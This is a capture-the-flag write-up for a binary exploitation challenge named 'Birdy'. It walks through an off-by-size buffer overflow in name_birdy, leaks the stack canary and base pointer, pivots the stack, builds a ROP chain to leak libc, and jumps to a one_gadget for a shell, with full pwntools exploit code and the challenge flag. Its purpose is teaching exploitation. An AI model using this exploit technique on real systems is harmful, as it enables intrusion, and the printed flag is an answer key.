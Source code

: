 # Birdy

——————— 𝘼𝙪𝙩𝙝𝙤𝙧 𝙣𝙤𝙩𝙚 ———————<br>
𝗖𝗵𝗮𝗹𝗹𝗲𝗻𝗴𝗲’𝘀 𝗻𝗮𝗺𝗲: Birdy.<br>
𝗖𝗮𝘁𝗲𝗴𝗼𝗿𝘆: Pwn.<br>
𝗗𝗲𝘀𝗰𝗿𝗶𝗽𝘁𝗶𝗼𝗻: These cute little birds 🐦 are fluttering<br>
and pivoting around in stacks everywhere! Can you befriend them?<br>
Find more details using: https://gofile.io/d/BctXD4<br>
—————————————————————<br>
```
pwndbg> checksec
RELRO           STACK CANARY      NX            PIE   
Partial RELRO   Canary found      NX enabled    No PIE
```

## Playing with the binary

```
$ ./birdy
   \\
   (o>
\\_//)
 \_/_)
  _|_

A wild cute little birdy 🐦 appeared!

Quick! What do you name it? aaa
Birdy 🐦 likes his new name aaa
��?
How do you feel now? aaa
```
First thing, we notice is the leak printed after our input, after looking at the decompiled code<br>
we also notice that name_birdy() allocates 0x58 bytes as input buffer, but reads 0x68 bytes for the second input<br>
so we can overflow the buffer and overwrite the stack canary and rbp pointer, but we need to leak them first<br>
```C
void name_birdy(void)

{
  long in_FS_OFFSET;
  undefined local_68 [88];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Quick! What do you name it? ");
  readstr(local_68,0x58);
  printf(&DAT_00400d70,local_68);
  printf("How do you feel now? ");
  readstr(local_68,0x68);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

## Leaking the stack

In order to leak the stack canary and base pointer, we need to send 0x59 bytes (0x58 + '\n') as input<br>
to overwrite the first null byte in the canary (otherwise printf will stop there, not leaking anything)<br>

```python
r.sendlineafter('Quick! What do you name it? ', 'a'*88)
r.recvline()
canary = u64(b'\0' + r.recv(7))
rbp = u64(r.recvline(keepends=False).ljust(8, b'\0'))

log.info('Leaking stack canary : ' + str(hex(canary)))
log.info('Leaking base pointer : ' + str(hex(rbp)))
```

## Stack pivoting

We leaked the canary and base pointer and we can't overwrite the return pointer of this function, but we can<br>
control the return pointer of it's caller by changing the base pointer to a memory address that we control<br>
so when the caller function reaches the 'ret' instruction, it will pop the address that we stored there.<br>
All that is left to do now is making a rop-chain to leak libc address, calculate one_gadget address and write<br>
it to memory by calling readstr() and executing a one gadget to get a shell!<br>

```python
def main():

    elfrop = ROP(elf)
    pop_rsi_popr15_ret = elfrop.find_gadget(["pop rsi", "pop r15", "ret"]).address
    pop_rdi_ret = elfrop.find_gadget(["pop rdi", "ret"]).address
    name_birdy = elf.sym.name_birdy

    r = conn()

    r.sendlineafter('Quick! What do you name it? ', 'a'*88)
    r.recvline()
    canary = u64(b'\0' + r.recv(7))
    rbp = u64(r.recvline(keepends=False).ljust(8, b'\0'))

    log.info('Leaking stack canary : ' + str(hex(canary)))
    log.info('Leaking base pointer : ' + str(hex(rbp)))

    payload = flat(canary, rbp-0x40, pop_rdi_ret, elf.got.puts, elf.plt.puts,
            pop_rdi_ret, rbp-0x38, pop_rsi_popr15_ret, 0x100, 0x0, elf.sym.readstr)
    payload = payload.ljust(0x58, b'\0')
    payload += p64(canary) + p64(rbp-0x88)

    r.send(payload)
    r.recvuntil('How do you feel now? ')
    libc.address = u64(r.recvline(keepends=False).ljust(8, b'\0')) - libc.sym.puts
    log.info('Leaking libc pointer : ' + str(hex(rbp)))
    one_gadget = libc.address + 0x4f432
    r.sendline(p64(one_gadget).ljust(0x100, b'\0'))

    r.interactive()
```

## Flag
```
shellmates{C4N4RIeS_4r3_N0w_Your_fR1ends}
```
